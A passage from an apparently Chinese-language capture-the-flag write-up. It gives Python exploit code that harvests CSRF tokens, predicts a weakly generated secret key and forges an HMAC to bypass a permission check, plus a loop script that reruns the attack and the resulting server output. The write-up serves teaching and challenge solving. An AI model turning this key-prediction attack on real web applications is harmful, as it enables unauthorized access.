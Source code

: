     result = []
    for i in xrange(6):
        r = (d[31+i]+62-d[28+i])%62
        result.append(r)
    key = ''.join(s[j] for j in result) 

    return hmac.new(key,a).hexdigest()  

r0 = session.get(url)
token0 = re.findall(re_csrf_token,r0.text)[-1]
d0 = parse(token0,str_list)
payload0 = {'submit':'go', 'CSRF_TOKEN':token0, 'act':action, 'key':'1234567'}
session.post(url,data=payload0)
r1 = session.get(url)
token1 = re.findall(re_csrf_token,r1.text)[-1]
d1 = parse(token1,str_list)
pre =  [0,0,0,0,0,0]+d0+d1
key = guess(pre,str_list,action)
payload1 = {'submit':'go', 'CSRF_TOKEN':token1, 'act':action, 'key':key}
r2 = session.post(url,data=payload1)    

if 'Permission deny!!' not in r2.text:
    print '[+]Done!'
    print r2.text
{% endhighlight %}

由于rand生成算法中有加1的随机情况存在，所以这里就需要多推测几次得到正确的SECRET_KEY，进入if逻辑调用函数，所以再写一个初步的代码（get-1.py）重复测试

{% highlight python %}
#!/usr/bin/env python
#coding=utf-8   

import sys
import subprocess   

while 1:
    output = subprocess.check_output(['python',sys.argv[1],sys.argv[2]])
    if output:
        print output
        break
{% endhighlight %}

运行得到如下输出：

{% highlight bash %}
$ python get-1.py new-1.py flag
[+]Done!
    <!DOCTYPE html>
    <html lang="en">
    <head>
        <meta charset="UTF-8">
        <title>Error</title>
        <link rel="stylesheet" href="style.css">
        <!-- ?x_show_source -->
    </head>
    <body>  

    <div class="container">
        <div class="block title">
            Error
        </div>
        <div class="block show">
            Function not found!!        </div>
        <div class="block info">
            <a href="javascript:history.back(-1)">返回</a>
        </div>
    </div>  


[1]: https://wx2.sinaimg.cn/large/ee2fecafly1g3qpzjx8q9j20rh06wmxa.jpg
[2]: https://wx1.sinaimg.cn/large/ee2fecafly1g3qpzkbvkoj20mu0etjry.jpg
[3]: https://wx2.sinaimg.cn/large/ee2fecafly1g3qpzkq869j20h603taae.jpg
[4]: https://wx2.sinaimg.cn/large/ee2fecafly1g3qpzlckcvj20l30gc40g.jpg
[5]: https://wx4.sinaimg.cn/large/ee2fecafly1g3qpzm24iej20n30c3dhe.jpg
